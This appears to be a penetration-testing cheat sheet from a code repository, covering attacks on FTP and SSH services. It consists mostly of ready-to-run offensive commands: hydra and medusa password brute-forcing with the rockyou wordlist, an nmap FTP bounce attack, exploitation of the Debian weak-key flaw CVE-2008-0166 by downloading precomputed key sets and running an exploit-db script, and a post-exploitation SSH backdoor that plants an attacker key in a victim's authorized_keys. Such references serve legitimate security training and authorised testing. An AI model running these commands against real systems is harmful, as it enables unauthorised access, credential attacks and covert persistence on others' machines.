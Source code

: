 ### Attacking FTP

| **Command**                                                                  | **Description**                                              |
| ---------------------------------------------------------------------------- | ------------------------------------------------------------ |
| `ftp 192.168.2.142`                                                          | Connecting to the FTP server using the `ftp` client.         |
| `nc -v 192.168.2.142 21`                                                     | Connecting to the FTP server using `netcat`.                 |
| `hydra -l user1 -P /usr/share/wordlists/rockyou.txt ftp://192.168.2.142`     | Brute-forcing the FTP service.                               |
| `medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp` | Brute Forcing with Medusa                                    |
| `nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2`         | The Nmap -b flag can be used to perform an FTP bounce attack |

---

## SSH - 22

### Brute force

```
hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> ssh://<IP> -u -vV
```

### CVE-2008-0166

```
All SSL and SSH keys generated on Debian-based systems (Ubuntu, Kubuntu, etc) between September 2006 and May 13th, 2008 may be affected.

https://www.exploit-db.com/exploits/5720

wget https://github.com/g0tmi1k/debian-ssh/raw/master/common_keys/debian_ssh_rsa_2048_x86.tar.bz2 https://github.com/g0tmi1k/debian-ssh/raw/master/common_keys/debian_ssh_dsa_1024_x86.tar.bz2

bunzip2 debian_ssh_rsa_2048_x86.tar.bz2 debian_ssh_dsa_1024_x86.tar.bz2
tar -xvf debian_ssh_rsa_2048_x86.tar
tar -xvf debian_ssh_dsa_1024_x86.tar

python 5720 rsa/2048 <IP> <USER> <PORT> <THREADS>
python 5720 dsa/1024 <IP> <USER> <PORT> <THREADS>
```

### SSH backdoor - post exploitation

```
# Attacker
ssh-keygen -f <FILENAME>
chmod 600 <FILENAME>
cat <FILENAME>.pub -> copy

# Victim
echo <FILENAME>.pub >> <PATH>/.ssh/authorized_keys

# Connect
ssh -i <FILENAME> <USER>@<IP>
```

---